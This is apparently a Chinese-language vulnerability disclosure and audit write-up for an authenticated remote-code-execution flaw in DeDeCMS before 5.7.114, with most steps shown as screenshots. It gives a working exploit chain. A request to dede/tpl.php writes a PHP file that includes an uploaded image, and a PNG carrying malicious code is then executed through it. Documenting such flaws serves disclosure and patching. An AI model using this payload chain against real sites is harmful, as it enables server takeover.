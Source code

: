 # **\*漏洞情况\**

上海卓卓网络科技有限公司，后台存在RCE漏洞，攻击者可以利用此漏洞获取服务器权限

# **\*影响版本\**

此漏洞涉及版本为DeDeCMS<5.7.114版本

# **\*审计过程\**

在官网下载好源码使用

![image](https://github.com/tianqing191/test-/assets/114899974/4d1cebf1-71ef-4618-903e-34fe83047633)

## *漏洞涉及文件*

 dede/tpl.php

![image](https://github.com/tianqing191/test-/assets/114899974/c1c6ebb4-ca78-4f27-a052-5df93bb1b48e)



在代码当中可以看到fwrite写入函数，其中第一个变量fp指定了一个文件为一个变量为truefile 其中truefile 是可控的

![image](https://github.com/tianqing191/test-/assets/114899974/f8528c93-c639-48a2-8caa-35ace4a947b6)


![image](https://github.com/tianqing191/test-/assets/114899974/08810b68-20ff-4101-a870-af31bba0fe49)


 并且 content 变量也是可控的

![image](https://github.com/tianqing191/test-/assets/114899974/fecd2f63-fee6-424a-a63f-17b702f26d76)


到这里大致的思路就明白了，使用fwrite函数进行了文件写入，写入文件为

1.lib.php,方便我们写入一句话，然后写入内容为content 变量，这

个变量我们可控，开始尝试写入一下

## **漏洞复现**

登陆后台

![image](https://github.com/tianqing191/test-/assets/114899974/df20e122-46a7-46fa-b8a8-dc25234b9268)


 

url/dede/tpl.php?filename=1.lib.php&action=savetagfile&content=<?=include_once("../../1.png");&token=[你的token]

 

![image](https://github.com/tianqing191/test-/assets/114899974/ca1b03c3-c1ae-4cb1-bad3-ff5834733a61)


写入成功文件名为1.lib.php 

![image](https://github.com/tianqing191/test-/assets/114899974/d493b81c-1a43-4e12-a3b3-40151e65de24)


写入的内容为

![image](https://github.com/tianqing191/test-/assets/114899974/a952c523-7d6e-452c-a76f-a6ebffc5892f)


其中变量content 存在过滤一些危险函数

![image](https://github.com/tianqing191/test-/assets/114899974/0c687e2c-c1f9-494a-ae8d-e7dcd5c76d4d)


通过写入php包含的函数，在进行上传一个带有恶意代码的png图片进行RCE

上传1.png图片 url/dede/file_manage_main.php

![image](https://github.com/tianqing191/test-/assets/114899974/ff2d8bc1-3d96-42d2-ad73-defdcf64f817)

访问1.lib.php文件 url/include/taglib/1.lib.php

![image](https://github.com/tianqing191/test-/assets/114899974/c8244720-f43f-4910-bfc3-e479df4f89e0)


成功RCE

 

 
